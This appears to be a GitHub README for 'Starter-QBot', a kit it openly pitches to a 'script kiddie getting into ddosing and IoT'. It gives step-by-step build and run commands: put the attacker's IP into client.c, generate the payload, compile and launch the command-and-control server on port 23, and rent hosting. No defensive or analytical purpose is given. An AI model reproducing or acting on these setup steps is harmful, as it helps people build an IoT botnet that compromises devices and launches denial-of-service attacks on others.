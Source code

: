 <h2>Starter-QBot</h2>
<p>This is a starter Qbot for a script kiddie getting into ddosing and IoT.</p>

<div>
  <h2>Requirements</h2><lu>
  <li>A VPS Server (2GB Ram & 2v Cores)
  <li>Centos 6.9 or Debian 9 or above
    </lu>

<div><h2>Tutorial</h2>
<pre><code> _____ _____     _      _____     _   
|     | __  |___| |_   |_   _|_ _| |_ 
|  |  | __ -| . |  _|    | | | | |  _|
|__  _|_____|___|_|      |_| |___|_|  
   |__|                               by D3fe4ted

1. sudo apt install python screen gcc nano perl
2. go to client and replace all "IPHERE"'s to your IP
3. python2 cc7.py client.c (ip)
4. Save your payload
5. gcc server.c -o server -pthread
6. nano login.txt (username password role mm/dd/yy)
7. screen ./server 23 1000 (port)
8. sudo ./server 23 1000 (port) (If step 7 doesn't work)</pre></code>
   <div>

<div>
  <h2>Recommended Hosting</h2><lu>
  <li><a href="https://sacred.sbs/">Sacred Hosting</a>
  <li><a href="https://www.cloudways.com/en/">Cloudways</a>
  <li><a href="https://crazyrdp.com/linux-vps-hosting/">CrazyRDP</a>
    <div>
